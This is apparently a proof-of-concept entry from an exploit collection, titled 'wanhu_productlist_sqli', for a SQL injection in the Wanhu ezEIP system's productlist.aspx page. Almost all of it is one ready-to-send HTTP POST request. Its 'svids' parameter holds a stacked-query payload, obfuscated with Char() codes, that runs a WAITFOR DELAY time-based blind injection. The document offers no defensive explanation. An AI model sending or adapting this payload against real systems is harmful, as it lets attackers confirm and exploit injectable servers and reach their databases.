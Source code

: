 # wanhu_productlist_sqli

```
POST /shop/productlist.aspx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

ob=price&price=asc&svids=-1%29%3BDECLARE+%40%40proc_name+VARCHAR%28301%29%3BSet+%40%40proc_name%3DChar%28115%29%252bChar%28101%29%252bChar%28108%29%252bChar%28101%29%252bChar%2899%29%252bChar%28116%29%252bChar%2832%29%252bChar%2849%29%252bChar%2832%29%252bChar%28119%29%252bChar%28104%29%252bChar%28101%29%252bChar%28114%29%252bChar%28101%29%252bChar%2832%29%252bChar%2849%29%252bChar%2861%29%252bChar%2849%29%252bChar%2832%29%252bChar%2887%29%252bChar%2865%29%252bChar%2873%29%252bChar%2884%29%252bChar%2870%29%252bChar%2879%29%252bChar%2882%29%252bChar%2832%29%252bChar%2868%29%252bChar%2869%29%252bChar%2876%29%252bChar%2865%29%252bChar%2889%29%252bChar%2832%29%252bChar%2839%29%252bChar%2848%29%252bChar%2858%29%252bChar%2848%29%252bChar%2858%29%252bChar%2853%29%252bChar%2839%29%3BEXECUTE+%28%40%40proc_name%29%3B--a%2B
```
from: https://github.com/wy876/POC/blob/main/%E4%B8%87%E6%88%B7OA/%E4%B8%87%E6%88%B7ezEIP%E4%BC%81%E4%B8%9A%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9Fproductlist.aspx%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
